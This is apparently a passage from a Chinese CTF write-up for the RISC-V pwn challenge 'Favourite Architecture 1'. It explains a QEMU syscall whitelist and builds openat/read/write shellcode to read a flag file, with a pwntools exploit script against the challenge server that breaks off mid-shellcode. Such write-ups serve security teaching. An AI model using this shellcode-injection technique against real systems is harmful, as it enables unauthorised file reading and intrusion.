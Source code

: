 ```patch
+        case TARGET_NR_read:
+        case TARGET_NR_readv:
+        case TARGET_NR_write:
+        case TARGET_NR_writev:
+        case TARGET_NR_mmap:
+        case TARGET_NR_munmap:
+        case TARGET_NR_exit:
+        case TARGET_NR_exit_group:
+        case TARGET_NR_mprotect:
+            ret = do_syscall1(cpu_env, num, arg1, arg2, arg3, arg4,
+                    arg5, arg6, arg7, arg8);
+            break;
+        default:
+            printf("[!] %d bad system call\n", num);
+            ret = -1;
+            break;
+    }
 
     if (unlikely(qemu_loglevel_mask(LOG_STRACE))) {
         print_syscall_ret(cpu_env, num, ret, arg1, arg2,

```

其使用白名单限制了可以使用的系统调用，故不可在risc-v层面使用execve系统调用来getshell

### Favourite Architecture 1

题目要求：Capture /home/pwn/flag

#### 分析

因为只是读文件，故直接手写orw即可，没有open可以用openat替代。openat中，若路径是绝对路径，则直接忽略文件夹的文件描述符，man手册：`openat(): If pathname is absolute, then dirfd is ignored.` 故shellcode要完成的就是如下功能：

```c
openat(0,"/home/pwn/flag",0);
read(f,buf,100);
write(1,buf,100);
```

经过docker调试，远程的shellcode存放的栈地址是`0x4000800b48`，之后便可以写exp了

#### exp

> c代码源码版shellcode，看起来的确简洁易懂

```python
from pwn import *
import os
context(log_level="debug")
io = remote("10.10.10.1",60001)

def gen_shellcode(shellcode):
    f = open("shellcode.c","w");f.write(shellcode);f.close()
    os.system("riscv64-linux-gnu-gcc -e main -nostdlib  -Os -static shellcode.c -o shellcode")
    os.system("riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode")
    f = open("sc.bin","rb");sc = f.read();f.close()
    return sc

shellcode = '''
void * syscall();
__attribute__((section(".text"))) char flag_path[] = "/home/pwn/flag";

int main() {
    char buf[100];
    int f = 
    syscall(56,0,flag_path,0);  // openat  =  56
```